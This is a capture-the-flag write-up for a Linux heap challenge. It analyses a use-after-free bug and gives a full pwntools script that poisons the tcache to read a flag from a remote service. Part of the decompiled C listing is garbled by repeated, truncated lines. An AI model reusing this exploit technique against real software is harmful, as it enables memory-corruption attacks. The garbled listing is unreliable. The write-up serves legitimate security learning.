


# afafafaf

## Problem

<details>

<summary>Description</summary>

Gemastik champ should know how heap work

`nc 157.230.247.65 9001`

FROM ubuntu:16.04

</details>

<details>

<summary>tldr;</summary>

1. Use After Free (UAF) vulnerability that allow us to write to a free’d chunk
2. overwrite free’d chunk metadata to poison the tcache to point to flag address
3. Request malloc twice, once for the previously free’d chunk, second for the poisoned tcache that points to the flag address
4. read the contents of the third malloc (read the flag)

</details>

## Solution

### Analysis

Given a binary _<mark style="color:green;">**a.out**</mark>_, the first thing we will do is to check the binary type and its security implementation.

<pre class="language-bash"><code class="lang-bash">$ file a.out               
<strong>a.out: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6906bdcafb119ccd3e31b4c6839966c395ece466, not stripped
</strong><strong>
</strong><strong>$ checksec --file=a.out    
</strong>RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable    FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   88 Symbols        No    0               3     a.out
</code></pre>

basic analysis summary:

* _<mark style="color:green;">**x64 least-bit ELF**</mark>_ binary
* _<mark style="color:green;">**dynamically linked**</mark>_, so it’ll depend on system library
* _<mark style="color:red;">**not stripped**</mark>_, it’ll be easier for us to reverse engineer
* _<mark style="color:green;">**Full RELRO**</mark>_, means that the GOT entry table is not writable
* _<mark style="color:red;">**No Stack Canary**</mark>_, means no additional checks if the stack is overflown
* _<mark style="color:green;">**NX enabled**</mark>_, means the stack is not executable
* _<mark style="color:green;">**PIE enabled**</mark>_, means that the base address of the program is randomized for each running processes

Next, let’s try to decompile the binary, below is the relevant code snippet that ghidra has decompiled.

<details>

<summary><em><mark style="color:green;">solvthistak()</mark></em></summary>


```c
void solvthistak(void){
  int iVar1;
  void *malloc;
  long in_FS_OFFSET;
  int choivoid solvthistak(void){
  int iVar1;
  void *malloc;
  long in_FS_OFFSET;
  int choivoid solvthistak(void){
  int iVar1;
  void *malloc;
  long in_FS_OFFSET;
  int choice;
  int id_num;
  undefined id_string [8];
  undefined8 local_10;
  
  
  do {
    while( true ) {
      while( true ) {
        while( true ) {
          menu();
          puts("[1]add / [2]delete / [3]read / [4]write");
          printf("> ");
          iVar1 = __isoc99_scanf("%d",&choice);
          if (iVar1 == 1) break;
          _IO_getc(stdin);
          puts("errno.");
        }
        if (choice != 1) break;
        id_num = getid(id_string);
        if (id_num != -1) {
          pop4heap(id_num);
          printf("[+] %s = malloc(0x50);\n",id_string);
          malloc = ::malloc(0x50);
          (&address)[id_num] = malloc;
        }
      }
      if (choice != 2) break;
      id_num = getid(id_string);
      if (id_num != -1) {
        printf("[+] free(%s);\n",id_string);
        free((void *)(&address)[id_num]);
        push2heap(id_num);
      }
    }
    if (choice == 3) {
      id_num = getid(id_string);
      if (id_num != -1) {
        printf("[+] puts(var %s);\n",id_string);
        printf("[+] %s\n",(&address)[id_num]);
      }
    }
    else if (choice == 4) {
      id_num = getid(id_string);
      if (id_num != -1) {
        printf("[+] gets( %s, 0x10);\n",id_string);
        printf("> ");
        read(0,(void *)(&address)[id_num],0x10);
        puts("[+] OK.");
      }
    }
    else {
      puts("Invalid choice.");
    }
  } while( true );
}
```


</details>

In an essence, this code will loop over through its execution and prompt user with an input that allows:

1. calls 80 bytes of malloc and saves up to chunk address in global array which is identified with (Q, W, E) respectively using the _<mark style="color:green;">**getid()**</mark>_ function
2. delete (or rather free) chunk of malloc allocation
3. read the contents of the chunk
4. fill and edit the user data within that chunk allocation

The bug here lies within the 4th command –write to user data–, the program doesn’t do any checks to disallow write to a free’d chunk thus enabling a Use After Free vulnerability allowing us to do a tcache poisoning attack with manipulating the free’d chunk metadata.

The way this works is because tcache forms a linked list to keep track of free’d chunks. Below is a simplified diagram I made to illustrate and hopefully make it easier to understand:

<figure><figcaption><p>heap after initial free</p></figcaption></figure>

because tcache always points to the last free’d chunk. It means if next we free chunk _<mark style="color:green;">**b**</mark>_, the will points to _<mark style="color:green;">**b**</mark>_, but how the tcache will know a chunk is also free and is available to use next?&#x20;

this is where the _<mark style="color:green;">**fd**</mark>_ metadata comes to play, upon freeing chunk _<mark style="color:green;">**b**</mark>_, the heap manager assume that the user data of that chunk is no longer in use and thus are able to use those overwrite those section with useful metadata to store useful data, such as the _<mark style="color:green;">**fd**</mark>_ pointer. This way, when chunk _<mark style="color:green;">**b**</mark>_ is being free’d, it will store wherever the current tcache is pointing to (in this case chunk _<mark style="color:green;">**a**</mark>_) to its _<mark style="color:green;">**fd**</mark>_ metadata of the chunk that is being free’d (in this case chunk _<mark style="color:green;">**b**</mark>_). Next, the heap manager will replace the tcache pointer so it will point to the chunk that is just being free’d. The heap now roughly looks as follows:

<figure><figcaption><p>heap after another free</p></figcaption></figure>

Next, if the program asks for another malloc allocation, the heap manager will check what the tcache is pointing to, if its a _<mark style="color:red;">**NULL**</mark>_, then it will allocate a new chunk to be used, however if the tcache contain a pointer, then it will use an address pointed by it and reuse the it as a new chunk returned by malloc.

<figure><figcaption><p>heap condition after free followed by malloc</p></figcaption></figure>

The tcache will then, overwrite its pointer to whatever the _<mark style="color:green;">**fd**</mark>_ points at. If it's _<mark style="color:red;">**NULL**</mark>_ (or not pointing to anything), then there’s no free chunks available anymore.

_Disclaimer: the heap manager is very complex, and there are a lot of types of bin exist and the flow of free and malloc allocation of the heap depends on some factor one of which is the size of the malloc. In this case it will use the tcache bin, but for bigger allocation it will use another type of bin that works in a very different way. to read more about this follow this link:_ [_heap-bins_](https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/)

<details>

<summary><em><mark style="color:green;">setup()</mark></em></summary>


```c
void setup(void){
  FILE *__stream;
 
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  __stream = fopen("flag.txt","r");
  flag = malloc(0x50);
  if (__stream == (FILE *)0x0) {
    puts("yah error ngab");
    exit(1);
  }
  fread(flag,1,0x50,__stream);
  fclose(__stream);
  malloc(0x100);
  return;
}
```


</details>

The above function reads the flag into the binary and saves it in the heap memory. We can check this by using _<mark style="color:green;">**gdb-pwndbg**</mark>_ `vis_heap_chunks`

<figure><figcaption><p>flag heap</p></figcaption></figure>

### Exploitation

with this we can get an attack vector idea as follows:

1. Request a malloc allocation and free it
2. Edit the first 8 bytes –––the _<mark style="color:green;">**fd**</mark>_ metadata––– of the free’d chunk to a pointer to flag chunk, manipulating tcache into thinking that there’s another free chunk and will allocate into that address that the _<mark style="color:green;">**fd**</mark>_ points to next after the current chunk has been allocated.&#x20;
3. Request an allocation that will allocate the first free’d chunk that we just corrupt
4. Request another allocation that because of reason explained above will allocate to the chunk that contains the flag
5. Read the contents of the flag chunk

Initially if we didn’t manipulate the heap should look something like this:

<figure><figcaption><p>uncorrupted heap metada</p></figcaption></figure>

Thus if the program calls for another malloc it will reallocate the chunk b and ask for a new chunk address instead. However because we manipulate the _<mark style="color:green;">**fd**</mark>_ it will look something like this:

<figure><figcaption><p>corrupted heap metadata</p></figcaption></figure>

and in this case, we will set the _<mark style="color:green;">**fd**</mark>_ to point to the address of the flag chunk.

<details>

<summary><em><mark style="color:green;"><strong>Solve Script</strong></mark></em></summary>


```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './a.out_patched'
elf = context.binary = ELF(exe, checksec=True)
libc = '/lib/x86_64-linux-gnu/libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
host, port = '157.230.247.65', 9001

def start(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
'''.format(**locals())

def add(id):
    io.sendlineafter(b'>', b'1')
    io.sendlineafter(b':', id.encode())

def delete(id):
    io.sendlineafter(b'>', b'2')
    io.sendlineafter(b':', id.encode())

def read(id):
    io.sendlineafter(b'>', b'3')
    io.sendlineafter(b':', id.encode())
    return io.recvline()

def write(id, message):
    io.sendlineafter(b'>', b'4')
    io.sendlineafter(b':', id.encode())
    io.sendlineafter(b'>', message)

# =========================================================
#                         EXPLOITS
# =========================================================
io = start()
rop = ROP(exe)

flag_addr = int(io.recvline()[5:-2], 16) - 0x10
info('flag address: %#x', flag_addr)

add('Q')
delete('Q')
write('Q', flat(flag_addr))

add('W')
add('E')
read('E')

io.interactive()
```


</details>

## Flag

<figure><figcaption><p>Gained flag</p></figcaption></figure>

> _**flag{Uaf\_shouldn't\_be\_a\_challenge}**_
